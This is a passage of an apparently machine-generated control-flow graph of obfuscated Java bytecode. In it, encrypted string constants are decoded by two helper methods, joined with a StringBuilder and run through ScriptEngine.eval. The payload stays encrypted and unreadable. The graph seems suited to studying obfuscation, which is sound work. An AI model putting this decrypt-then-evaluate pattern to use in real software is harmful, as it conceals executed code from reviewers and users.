u5bb1\uda3e\u63aa\u58ed\u56fb\u3045\ub852\u3f9b\udd79\u4570\uf55a\u5138\u8a35\u1a6e\u7b88\u5436\u978d\u3c73\u6800\u9806\u6d2d\uc6e2\uabbf\ub534\u90a4\u92e6\u609c\u1364\u345c\u697f\u85d9\ud95b\u6792\u7894\u5d39\udd1d\u0c58\u524e\uf4da\u79e6\u18de\ud979\u92e8\u14b1\uecdc\u987c\u977d\ua712\u3c2d\u749b\u59c6\u7a54\ubfda\uc3d9\u6013\u1aa1\uc6af\u414b\u29ec\u2dc2\ude97\u336c\ued8f\uf2da\u5aa1\ua14c\u22e0\uf720\ub8fb\ud5b7\u9400\uc141\u5a7d\u27c3\u954a\u00ff\u7c0f\ub3f6\u0ace\u8538\u3ed6\u4de4\u596a\u46d3\u5bce\u2c95\u343b\uae3e\u0630\ue1c2\u8afe\u2ca1\ue64a\u3c04\u59d3\u2f0f\uf54b\udb8f\uc4b2\u8faf\ub2e3\u2060\u185d\u73d6\u8ed5\u7c2b\u141f\u7df7\u3df9\ud8eb\uf7b0\u448b\u4411\ubd21\uac27\ue319\uf8ab\u8c61\u2d2e\u9996\udc97\ub85f\ud5d8\u6a90\u2ec0\ua98e\u37b1\u3c63\u2010\u776f\u9e00\u2eb6\u7d9f\u23a7\u3c37\udf77\u34ad\u7605\u3262\ua095\u6cb0\u12a8\u8e83\u632b\u3019\u7d14\uc58d\u62b1\u2022\uf619\ub21a\u378a\u3342\u526f\u947e\u5feb\u4206\ue59c\uc02d\u2193\u3e83\uf4cc\u55c2\u2bfd\u2ff5\u0d51\u47a5\u9eee\u6241\ub689\uc3f1\u7787\u0d36\u8718\u4afc\uf9e1\u9121\uf872\ube49\uf11e\u7439\u10a5\ua2fc\ub94b\u275b\u21f1\u56ba\u834e\u345b\u582c\u7a9a\u4224\uecfa\ud468\u1b5f\ufaed\u6790\u1bbe\u9c2e\u9f2a\uaec4\u8017\u811a\uae8f\u98f9\u66a8\u5d0e\ub0db\ufddf\ubcfe\u8fe7\u1c8b\u9570\ubeb2\u3f3f\ub254\u04b1\u661f\u239e\u334d\ue1cb\u2c55\u3c0d\u9f85\u8a86\u0638\u8bb0\u6df0\u17da\ufb65\u37ef\u5faf\u3a81\u88be\ue29e\u3a9c\u5e8d\u51d5\u9b10\u9a1b\ucf2f\uf8a6\u2305\u0f62\u4a02\ua92a\u11ae\u876d\u4825\u2668\u45dc\u2561\u66fc\uc0d9\ua2a7\u0aa0\u48fc\ua549\u4215\u5faa\u72f7\uf2ba\ud9df\u429d\u335c\u9a28\u93f4\ubca5\u1fa0\u75b9\u824d\uf2db\u2fbe\u8350\u7900\u5b39\ud574\u56f1\ua16b\uc509\uae6f\ua6b2\u3991\u1b14\ua8a2\ufc53\u89aa\ue408\u81c2\ua91b\ue170\u1851\u923a\u8dc6\u1497\u4e77\u09b5\ud566\u51ba\u3624\u6644\u2200\ud48f\ubb94\u9bde\u3348\u215f\u0149\ucc4b\uca66\u723a\u3f8a\u5eea\ub25e\u57a1\uc7dc\u5628\ubcb0\u0ce1\ua2f9\ua352\u4c71\ud966\ub191\u862a\u84bf\ub623\u7715\ue77c\u8c5c\u072c\uc883\u6471\uc7ab\u2c97\ubd0b\u8e86\u49ea\u8614\u169a\u6e48\u9436\u71c5\uc8a7\ud13a\u0d90\u0efe\u447c\u6d07\u01ba\u8490\u4fa9\u4be1\ub007\ua793\u5736\uf1b1\uf34a\u1a00\ub7e3\u79fe\uadc2\uf1a2\ue499\u448f\u3bce\u8795\u4480\u4c00\u7aa4\u26f6\u1793\u578f\u7113\ua270\uf700\uffa9\uaae5\uf3a4\uc0ce\u3833\u47fe\ufde6\ua985\ubcfd\u77fa\ubafc\u3f57\u6c9e\uf9cd\u6b23\ub159\u440e\u82bf\u4d00\ud99e\uc22f\u3eab\uf1ce\u3c99\u918f\u59b0\uadee\u4fe0\u017e\u4940\udf10\u012b\u7c91\uf4cf\uc2ac\uc229\u9014\u880b\ud65c\u7693\u8567\u5f6b\uac28\uaf13\u044a\u62ee\u5a97\u1386\uece1\u43fe\ue297\u1360\u3122\ue81d\u81ed\u3acd\u2093\u0d06\ud640\u070c\u889b\ubfa7\u8841\u4bb1\u0a16\u2b45\u7169\ue831\uaba4\u958f\u5efc\u13ca\u7765\u9605\u2741\u6722\uc405\u89b2\u17ce\u1fd5\ucafb\u014a\ucd7c\u95f3\u40ff\u9d89\ua3fe\uc207\u1105\u103e\ua5d4\u1922\u6798\uffac\u3d97\u040d\u2b21\uc8e8\u12d2\u1875\ua84c\u80dd\u9d82\u83e2\u6d52\u0780\u757f\u781d\uf0ba\ua3a9\u13b1\uad51\u20e2\u640a\u881e\uf67e\u7f07\uef44\uac8d\uf979\u8d3a\ufbd1\ua107\u84dc\u55b9\u5366\ue408\u6e00\u2b30\u95e8\u0fcb\u56ab\u712d\ud9bd\u573d\u3240\u5ec5\ue886\u404e\u3080\ua266\u9c41\u05a3\ub1fc\u74dc\u6dd4\u91eb\"";
    "push \"\u5802\u5dad\ub67c\u6619\u8a53\ua792\uef3a\ub5c5\uda16\u7eb3\u04c3\u4fd7\uc703\u9177\u06e9\u54a2\uad15\u592c\u211c\ude76\u9663\ub92e\u288a\u5ead\ub443\u5f88\u9688\u3b6b\u2c28\u52e2\u0798\uc47d\uf6e2\u57eb\ude70\uafec\uc199\u8cc3\u06f7\u4252\u515f\u341c\uf6a4\ub692\u3a14\uac21\uc3d5\uf5ba\u708c\u8166\u0c2f\ub76c\ue7fa\uf7b3\u2ea3\u4e8c\ude6c\u541d\u1e84\u49e0\u40cf\u20a7\u06d7\uea4a\ub4a5\u2b96\ubbb8\u5b60\ubf1d\uec48\u97b0\u704b\ua46d\u6369\u037e\u268b\u9eac\u97e0\ue37a\u8b37\u4883\ufa61\uf252\ua854\u18e5\ua0dc\u9615\ucd55\u8cf2\uc191\u1c1a\u6af9\ub07d\u3560\ub99e\u0786\u35b4\u2825\u4731\uf607\ue503\u06e8\u908c\uaf57\u021c\ua25f\u4f7f\u78ef\u6047\udcd3\ubbc5\ua8f8\u85d1\u2349\uc10c\uc112\u84c1\u2b78\uc487\u6120\u7c79\u1218\uba1d\ub62a\ua49f\u90a9\ub90f\u4b92\u8d02\u7b9a\u55bd\u27cb\ub953\uc8e1\u90d5\u553e\u014c\ude84\u2002\u4113\ua90f\uc38f\u3589\u6b2e\u2c79\u726d\u5062\ua56e\u9775\u5bb1\uda3e\u63aa\u58ed\u56fb\u3045\ub852\u3f9b\udd79\u4570\uf55a\u5138\u8a35\u1a6e\u7b88\u5436\u978d\u3c73\u6800\u9806\u6d2d\uc6e2\uabbf\ub534\u90a4\u92e6\u609c\u1364\u345c\u697f\u85d9\ud95b\u6792\u7894\u5d39\udd1d\u0c58\u524e\uf4da\u79e6\u18de\ud979\u92e8\u14b1\uecdc\u987c\u977d\ua712\u3c2d\u749b\u59c6\u7a54\ubfda\uc3d9\u6013\u1aa1\uc6af\u414b\u29ec\u2dc2\ude97\u336c\ued8f\uf2da\u5aa1\ua14c\u22e0\uf720\ub8fb\ud5b7\u9400\uc141\u5a7d\u27c3\u954a\u00ff\u7c0f\ub3f6\u0ace\u8538\u3ed6\u4de4\u596a\u46d3\u5bce\u2c95\u343b\uae3e\u0630\ue1c2\u8afe\u2ca1\ue64a\u3c04\u59d3\u2f0f\uf54b\udb8f\uc4b2\u8faf\ub2e3\u2060\u185d\u73d6\u8ed5\u7c2b\u141f\u7df7\u3df9\ud8eb\uf7b0\u448b\u4411\ubd21\uac27\ue319\uf8ab\u8c61\u2d2e\u9996\udc97\ub85f\ud5d8\u6a90\u2ec0\ua98e\u37b1\u3c63\u2010\u776f\u9e00\u2eb6\u7d9f\u23a7\u3c37\udf77\u34ad\u7605\u3262\ua095\u6cb0\u12a8\u8e83\u632b\u3019\u7d14\uc58d\u62b1\u2022\uf619\ub21a\u378a\u3342\u526f\u947e\u5feb\u4206\ue59c\uc02d\u2193\u3e83\uf4cc\u55c2\u2bfd\u2ff5\u0d51\u47a5\u9eee\u6241\ub689\uc3f1\u7787\u0d36\u8718\u4afc\uf9e1\u9121\uf872\ube49\uf11e\u7439\u10a5\ua2fc\ub94b\u275b\u21f1\u56ba\u834e\u345b\u582c\u7a9a\u4224\uecfa\ud468\u1b5f\ufaed\u6790\u1bbe\u9c2e\u9f2a\uaec4\u8017\u811a\uae8f\u98f9\u66a8\u5d0e\ub0db\ufddf\ubcfe\u8fe7\u1c8b\u9570\ubeb2\u3f3f\ub254\u04b1\u661f\u239e\u334d\ue1cb\u2c55\u3c0d\u9f85\u8a86\u0638\u8bb0\u6df0\u17da\ufb65\u37ef\u5faf\u3a81\u88be\ue29e\u3a9c\u5e8d\u51d5\u9b10\u9a1b\ucf2f\uf8a6\u2305\u0f62\u4a02\ua92a\u11ae\u876d\u4825\u2668\u45dc\u2561\u66fc\uc0d9\ua2a7\u0aa0\u48fc\ua549\u4215\u5faa\u72f7\uf2ba\ud9df\u429d\u335c\u9a28\u93f4\ubca5\u1fa0\u75b9\u824d\uf2db\u2fbe\u8350\u7900\u5b39\ud574\u56f1\ua16b\uc509\uae6f\ua6b2\u3991\u1b14\ua8a2\ufc53\u89aa\ue408\u81c2\ua91b\ue170\u1851\u923a\u8dc6\u1497\u4e77\u09b5\ud566\u51ba\u3624\u6644\u2200\ud48f\ubb94\u9bde\u3348\u215f\u0149\ucc4b\uca66\u723a\u3f8a\u5eea\ub25e\u57a1\uc7dc\u5628\ubcb0\u0ce1\ua2f9\ua352\u4c71\ud966\ub191\u862a\u84bf\ub623\u7715\ue77c\u8c5c\u072c\uc883\u6471\uc7ab\u2c97\ubd0b\u8e86\u49ea\u8614\u169a\u6e48\u9436\u71c5\uc8a7\ud13a\u0d90\u0efe\u447c\u6d07\u01ba\u8490\u4fa9\u4be1\ub007\ua793\u5736\uf1b1\uf34a\u1a00\ub7e3\u79fe\uadc2\uf1a2\ue499\u448f\u3bce\u8795\u4480\u4c00\u7aa4\u26f6\u1793\u578f\u7113\ua270\uf700\uffa9\uaae5\uf3a4\uc0ce\u3833\u47fe\ufde6\ua985\ubcfd\u77fa\ubafc\u3f57\u6c9e\uf9cd\u6b23\ub159\u440e\u82bf\u4d00\ud99e\uc22f\u3eab\uf1ce\u3c99\u918f\u59b0\uadee\u4fe0\u017e\u4940\udf10\u012b\u7c91\uf4cf\uc2ac\uc229\u9014\u880b\ud65c\u7693\u8567\u5f6b\uac28\uaf13\u044a\u62ee\u5a97\u1386\uece1\u43fe\ue297\u1360\u3122\ue81d\u81ed\u3acd\u2093\u0d06\ud640\u070c\u889b\ubfa7\u8841\u4bb1\u0a16\u2b45\u7169\ue831\uaba4\u958f\u5efc\u13ca\u7765\u9605\u2741\u6722\uc405\u89b2\u17ce\u1fd5\ucafb\u014a\ucd7c\u95f3\u40ff\u9d89\ua3fe\uc207\u1105\u103e\ua5d4\u1922\u6798\uffac\u3d97\u040d\u2b21\uc8e8\u12d2\u1875\ua84c\u80dd\u9d82\u83e2\u6d52\u0780\u757f\u781d\uf0ba\ua3a9\u13b1\uad51\u20e2\u640a\u881e\uf67e\u7f07\uef44\uac8d\uf979\u8d3a\ufbd1\ua107\u84dc\u55b9\u5366\ue408\u6e00\u2b30\u95e8\u0fcb\u56ab\u712d\ud9bd\u573d\u3240\u5ec5\ue886\u404e\u3080\ua266\u9c41\u05a3\ub1fc\u74dc\u6dd4\u91eb\""->"staticinvoke <c: java.lang.String 爜(java.lang.String)>";
    "staticinvoke <c: java.lang.String 爜(java.lang.String)>"->"staticinvoke <c: java.lang.String dc(java.lang.String)>";
    "staticinvoke <c: java.lang.String dc(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\u5853\u5ded\ub63c\u6645\u8a06\ua7d6\uef24\ub596\uda44\u7eaa\u048a\u4fce\uc709\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\u5853\u5ded\ub63c\u6645\u8a06\ua7d6\uef24\ub596\uda44\u7eaa\u048a\u4fce\uc709\"";
    "push \"\u5853\u5ded\ub63c\u6645\u8a06\ua7d6\uef24\ub596\uda44\u7eaa\u048a\u4fce\uc709\""->"staticinvoke <c: java.lang.String 爜(java.lang.String)>";
    "staticinvoke <c: java.lang.String 爜(java.lang.String)>"->"staticinvoke <c: java.lang.String dc(java.lang.String)>";
    "staticinvoke <c: java.lang.String dc(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\u5840\u5df8\ub638\u665c\u8a11\ua7cc\uef2a\ub5a6\uda52\u7ef0\u049b\u4f89\uc755\u9169\u06be\u54e0\uad4a\u5971\u216f\ude2e\u9632\ub96c\u28f9\u5ef2\ub417\u5fdc\u9691\u3b62\u2c2f\u52f9\u07e5\uc42d\uf6a6\u57b3\ude6e\uafae\uc1c6\u8c86\u06a9\u4206\u5147\u3460\uf6f4\ub6d7\u3a4c\uac3e\uc396\uf5eb\u70d2\u8132\u0c70\ub731\ue7e2\uf7aa\u2eb9\u4e8e\ude69\u5405\u1e9c\u49eb\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\u5840\u5df8\ub638\u665c\u8a11\ua7cc\uef2a\ub5a6\uda52\u7ef0\u049b\u4f89\uc755\u9169\u06be\u54e0\uad4a\u5971\u216f\ude2e\u9632\ub96c\u28f9\u5ef2\ub417\u5fdc\u9691\u3b62\u2c2f\u52f9\u07e5\uc42d\uf6a6\u57b3\ude6e\uafae\uc1c6\u8c86\u06a9\u4206\u5147\u3460\uf6f4\ub6d7\u3a4c\uac3e\uc396\uf5eb\u70d2\u8132\u0c70\ub731\ue7e2\uf7aa\u2eb9\u4e8e\ude69\u5405\u1e9c\u49eb\"";
    "push \"\u5840\u5df8\ub638\u665c\u8a11\ua7cc\uef2a\ub5a6\uda52\u7ef0\u049b\u4f89\uc755\u9169\u06be\u54e0\uad4a\u5971\u216f\ude2e\u9632\ub96c\u28f9\u5ef2\ub417\u5fdc\u9691\u3b62\u2c2f\u52f9\u07e5\uc42d\uf6a6\u57b3\ude6e\uafae\uc1c6\u8c86\u06a9\u4206\u5147\u3460\uf6f4\ub6d7\u3a4c\uac3e\uc396\uf5eb\u70d2\u8132\u0c70\ub731\ue7e2\uf7aa\u2eb9\u4e8e\ude69\u5405\u1e9c\u49eb\""->"staticinvoke <c: java.lang.String 爜(java.lang.String)>";
    "staticinvoke <c: java.lang.String 爜(java.lang.String)>"->"staticinvoke <c: java.lang.String dc(java.lang.String)>";
    "staticinvoke <c: java.lang.String dc(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\u584f\u5da6\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\u584f\u5da6\"";
    "push \"\u584f\u5da6\""->"staticinvoke <c: java.lang.String 爜(java.lang.String)>";
    "staticinvoke <c: java.lang.String 爜(java.lang.String)>"->"staticinvoke <c: java.lang.String dc(java.lang.String)>";
    "staticinvoke <c: java.lang.String dc(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\u5857\u5da0\ub622\u664c\u8a14\ua782\uef4f\ub587\uda54\u7eed\u0480\u4fcf\uc71b\u917c\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\u5857\u5da0\ub622\u664c\u8a14\ua782\uef4f\ub587\uda54\u7eed\u0480\u4fcf\uc71b\u917c\"";
    "push \"\u5857\u5da0\ub622\u664c\u8a14\ua782\uef4f\ub587\uda54\u7eed\u0480\u4fcf\uc71b\u917c\""->"staticinvoke <c: java.lang.String 爜(java.lang.String)>";
    "staticinvoke <c: java.lang.String 爜(java.lang.String)>"->"staticinvoke <c: java.lang.String dc(java.lang.String)>";
    "staticinvoke <c: java.lang.String dc(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\u5857\u5db3\ub621\u664c\u8a10\ua7d1\uef6b\ub592\uda43\u7ebf\u0486\u4f8f\uc75b\u9134\u06e3\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\u5857\u5db3\ub621\u664c\u8a10\ua7d1\uef6b\ub592\uda43\u7ebf\u0486\u4f8f\uc75b\u9134\u06e3\"";
    "push \"\u5857\u5db3\ub621\u664c\u8a10\ua7d1\uef6b\ub592\uda43\u7ebf\u0486\u4f8f\uc75b\u9134\u06e3\""->"staticinvoke <c: java.lang.String 爜(java.lang.String)>";
    "staticinvoke <c: java.lang.String 爜(java.lang.String)>"->"staticinvoke <c: java.lang.String dc(java.lang.String)>";
    "staticinvoke <c: java.lang.String dc(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\u5857\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\u5857\"";
    "push \"\u5857\""->"staticinvoke <c: java.lang.String 爜(java.lang.String)>";
    "staticinvoke <c: java.lang.String 爜(java.lang.String)>"->"staticinvoke <c: java.lang.String dc(java.lang.String)>";
    "staticinvoke <c: java.lang.String dc(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"load.r r2";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String,javax.script.Bindings)> 2"
    "load.r r2"->"interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String,javax.script.Bindings)> 2";
    "arraywrite.r"
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String,javax.script.Bindings)> 2"->"arraywrite.r";
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"
    "arraywrite.r"->"specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>";
    "virtualinvoke <a: java.awt.Component add(java.awt.Component)>"
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"->"virtualinvoke <a: java.awt.Component add(java.awt.Component)>";
    "virtualinvoke <a: java.awt.Component add(java.awt.Component)>"->"pop";
    "goto return"
    "pop"->"goto return";
    "return"
    "goto return"->"return";
    "store.r r0"
    "virtualinvoke <a: java.awt.Component add(java.awt.Component)>"->"store.r r0";
    "staticget <java.lang.System: java.io.PrintStream out>"
    "store.r r0"->"staticget <java.lang.System: java.io.PrintStream out>";
    "push \"\u587c\u5df2\ub638\u6643\u8a10\""
    "staticget <java.lang.System: java.io.PrintStream out>"->"push \"\u587c\u5df2\ub638\u6643\u8a10\"";
    "push \"\u587c\u5df2\ub638\u6643\u8a10\""->"staticinvoke <c: java.lang.String 爜(java.lang.String)>";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"
    "staticinvoke <c: java.lang.String 爜(java.lang.String)>"->"virtualinvoke <java.io.PrintStream: void println(java.lang.String)>";
}
